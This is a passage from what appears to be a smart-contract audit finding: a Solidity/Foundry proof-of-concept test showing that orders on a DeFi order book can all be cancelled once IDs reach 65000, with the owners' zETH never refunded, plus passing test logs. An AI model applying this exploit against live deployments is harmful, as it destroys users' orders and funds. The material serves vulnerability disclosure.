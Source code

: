   ```
       /* now we have the lists like this :
        - for bids : Head <- Head <->65001<->65000<->64998->Tail
        - for shorts: Head <- Head <->64999->Tail
        */

       //lets cancle the all the bids :
       canclebid(64998);
       //  - now : Head <-64998<-> Head <->65001<->65000->Tail
       uint s1 = vm.snapshot();
       vm.revertTo(s1);
       canclebid(65000);
       // - now : Head <-64998<->65000<-> Head <->65001->Tail
       uint s2 = vm.snapshot();
       vm.revertTo(s2);
       canclebid(65001);
       // - now : Head <-64998<->65000<->65001<-> Head ->Tail
       // let's check the  active bids :
       STypes.Order[] memory Afterbids = diamond.getBids(asset);
       // notice that we were able to delete all the bids even there was unActive ID's to be reused.
       assertTrue(Afterbids.length == 0);
       // also notice that the owners of this orders did not get refund thier zeth back that have been taken from them when they create this orders.

       for (uint i; i<bidders.length;i++){
        // check that there is no refund for the users : 
           uint ethUser = diamond.getZethBalance(vault,bidders[i]);
           console.log('balance of : ', bidders[i],ethUser);
           assertEq(ethUser ,0);
       }
       // also we can cancle the shorts and the asks, i don't wanna make POC to long , but this is the idea.you can cancle all the orders of a market if this market reach 65000,
       assertEq(diamond.getShorts(asset).length,1);
       diamond.cancelOrderFarFromOracle(asset, O.LimitShort, 64999, 1);
       assertEq(diamond.getShorts(asset).length,0);

   }
   function canclebid(uint16 id) public {
       diamond.cancelOrderFarFromOracle(asset, O.LimitBid, id, 1);
   }


}


```

- console after running test :

```sh
    [PASS] test_cancleOrders() (gas: 1218326)
Logs:
  balance of :  0x000000000000000000000000000000000006A4E9 0
  balance of :  0x00000000000000000000000000000000193d114b 0
  balance of :  0x000000000000000000000000000000000007f87E 0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 222.12ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
- for creating bunsh of tiny asks : 
```sh
[PASS] test_fillWithAsks() (gas: 860940067)
Logs:
```